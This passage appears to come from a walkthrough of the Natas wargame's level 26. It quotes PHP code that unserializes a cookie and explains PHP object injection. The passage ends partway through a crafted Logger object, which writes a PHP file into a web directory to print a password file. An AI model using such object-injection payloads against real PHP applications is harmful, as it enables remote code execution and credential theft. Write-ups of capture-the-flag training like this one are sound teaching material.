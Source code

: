             function __destruct(){
                // write exit message
                $fd=fopen($this->logFile,"a+");
                fwrite($fd,$this->exitMsg);
                fclose($fd);
            }                       
    }

    function storeData(){
            $new_object=array();

            if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
                array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
                $new_object["x1"]=$_GET["x1"];
                $new_object["y1"]=$_GET["y1"];
                $new_object["x2"]=$_GET["x2"];
                $new_object["y2"]=$_GET["y2"];
            }
            
            if (array_key_exists("drawing", $_COOKIE)){
                $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            }
            else{
                // create new array
                $drawing=array();
            }
            
            $drawing[]=$new_object;
            setcookie("drawing",base64_encode(serialize($drawing)));
    }
    ```

- We can also see that the name of the cookie this level sets is `drawing` and its value is the `base64_encode`d, `unserialize`d value fo the `$drawing` array object.
- At the very top, we can also see a class called `Logger` with two magic methods, namely, `__construct()` and `__destruct()`, which is apparently never used in the code! This is suspicious.
- According to this [OWASP](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection) article, the unserialize() function with a class that uses a magic method is susceptible to `php object injection`. This basically means that we can create a `php` object with malicious `php` code in it, `base64_encode` and `serialize` it to set the value of the `drawing` cookie. This will then be decoded and read, and when any of the magic methods are called, our code will be executed!
- The code and the value of the cookie are as follows:

    ```php
    <?php

    class Logger{
            private $logFile;
            private $exitMsg;
          
            function __construct($file){
                // initialise variables
                $this->exitMsg="Password for Natas 27 is: <?php echo file_get_contents('/etc/natas_webpass/natas27') ?>\n";
                $this->logFile = "img/" . $file . ".php";
          